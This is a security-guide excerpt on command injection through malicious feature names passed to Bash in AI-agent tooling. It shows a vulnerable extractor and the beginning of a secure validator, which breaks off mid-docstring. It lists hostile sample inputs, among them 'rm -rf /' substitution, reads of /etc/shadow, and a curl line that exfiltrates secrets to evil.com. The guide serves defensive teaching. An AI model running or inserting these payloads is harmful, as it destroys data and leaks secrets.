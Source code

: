 
## Security Gotchas

### 11. Command Injection via Malicious Feature Names

**Severity**: Critical (Security)
**Category**: Security / Input Validation
**Affects**: All commands that use feature names in Bash
**Source**: https://www.securityweek.com/top-25-mcp-vulnerabilities-reveal-how-ai-agents-can-be-exploited/

**What it is**:
Extracting feature name from user input (filename) without sanitization, then using in Bash commands. Malicious user creates `INITIAL_../../etc/passwd.md` or `INITIAL_$(rm -rf /).md`. Command executes arbitrary code.

**Why it's a problem**:
- **Arbitrary code execution**: Attacker can run any command on host system
- **Data exfiltration**: Read sensitive files, send to external server
- **System compromise**: Delete files, install malware, create backdoors
- **AI agent vulnerability**: 43% of MCP servers vulnerable to command injection

**How to detect it**:
```python
# Malicious input examples
"../../etc/passwd"  # Directory traversal
"$(rm -rf /)"  # Command injection
"; cat /etc/shadow"  # Command chaining
"`whoami`"  # Command substitution
"feature & curl evil.com/steal?data=$(cat secret.txt)"  # Data exfiltration
```

**How to avoid/fix**:

```python
# ❌ VULNERABLE - No sanitization

def extract_feature_name(filepath: str) -> str:
    # Example: "prps/INITIAL_user_auth.md" → "user_auth"
    basename = filepath.split("/")[-1]
    feature = basename.replace("INITIAL_", "").replace(".md", "")
    return feature  # DANGEROUS! Not validated

# Usage:
feature = extract_feature_name("prps/INITIAL_$(rm -rf /).md")
Bash(f"mkdir -p prps/{feature}/planning")
# Executes: mkdir -p prps/$(rm -rf /)/planning
# Result: ENTIRE FILESYSTEM DELETED!
```

```python
# ✅ SECURE - Strict validation and sanitization

import re

def extract_feature_name(filepath: str, content: str = None) -> str:
    """
    Safely extract feature name with strict validation.

    Security: Prevents command injection, directory traversal, and path manipulation.

    Args:
        filepath: Path to INITIAL.md or PRP file
        content: Optional file content for fallback extraction

    Returns:
        Sanitized feature name (alphanumeric, hyphens, underscores only)
```